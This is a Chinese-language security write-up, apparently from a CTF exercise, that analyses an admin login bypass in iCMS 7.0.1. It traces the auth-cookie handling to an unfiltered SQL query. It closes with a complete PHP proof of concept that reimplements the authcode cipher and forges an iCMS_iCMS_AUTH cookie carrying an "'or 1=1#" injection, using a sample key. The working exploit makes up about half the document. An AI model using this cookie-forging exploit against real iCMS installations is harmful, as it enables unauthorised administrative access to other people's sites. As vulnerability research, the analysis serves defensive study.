






@Author：Y4tacker

@time：2021/02/22 11:25 AM

# iCMS-7.0.1后台登录绕过分析

# 存在漏洞

- 一个是得到key以后可以万能密码登录后台(利用前提是已知KEY)

- 一个是验证码可重复利用(验证码Cookie值不变即可实现)


# 漏洞分析

这里我们讲第一个，经过简单的断点调试，我们发现登录的地方，会最终执行`app/members/members.class.php`下的`check_login`函数，他的逻辑不难，判断是否POST传入参数`$_POST['username']`与`$_POST['password']`，并且对这两个参数做了比较严格的过滤，因此我们不考虑单纯的sql注入



之后往下看我们发现如果参数为空，他就会取`iPHP::get_cookie(self::$AUTH);`，我们要想知道这个函数设的cookie的键，就必须得进入这个函数，发现是一个简单的拼接，因此不难得到为`iCMS_iCMS_AUTH`



我们回到`check_login`函数，第六十行说以$sep的值域为分割符，将我们的cookie的值转换为数组之后利用`list($a,$p)`进行对参数a和p的赋值，我们来看一下第57行

```php
$sep = iPHP_AUTH_IP?'#=iCMS['.$ip.']=#':'#=iCMS=#';
```

意思是看变量`iPHP_AUTH_IP`的值为true或false的一个三元运算符，今天做的那道题题目环境是false，因此他会取后面那个值，但是如果为true也不要怕，我们跟入`$ip  = iPHP::get_ip();`

发现都是可以用HTTP的请求头来获取的，所以这个不是问题



我的文件环境是打开了的，我也懒得关闭这个设置，正好测试是否可以请求头来实现获取ip

我们继续跟进`app/members/members.class.php`下的`self::check`



发现是没有经过过滤就直接拼接上参数，之后执行查询



那就好办了，万能密码就能绕过，但是下一个问题也来了我们如何获得Cookie后面加密的这个值呢，记得我们之前说的已经有了KEY吗，我们跟进这个加密函数，算法实现都丢出来了，加密解密一体，因此我们也就直接拿来用就行了


放上生成cookie的poc

```php
<?php
//error_reporting(0);
function urlsafe_b64decode($input){
    $remainder = strlen($input) % 4;
    if ($remainder) {
        $padlen = 4 - $remainder;
        $input .= str_repeat('=', $padlen);
    }
    return base64_decode(strtr($input, '-_!', '+/%'));
}

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length   = 8;
    $key           = md5($key ? $key : iPHP_KEY);
    $keya          = md5(substr($key, 0, 16));
    $keyb          = md5(substr($key, 16, 16));
    $keyc          = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey      = $keya.md5($keya.$keyc);
    $key_length    = strlen($cryptkey);

    $string        = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result        = '';
    $box           = range(0, 255);

    $rndkey        = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j       = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp     = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a       = ($a + 1) % 256;
        $j       = ($j + $box[$a]) % 256;
        $tmp     = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result  .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}

echo "iCMS_iCMS_AUTH=".urlencode(authcode("'or 1=1##=iCMS[192.168.0.1]=#1","ENCODE","n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk"));
```


接着我们来测试一下，发现确实如此



分析结束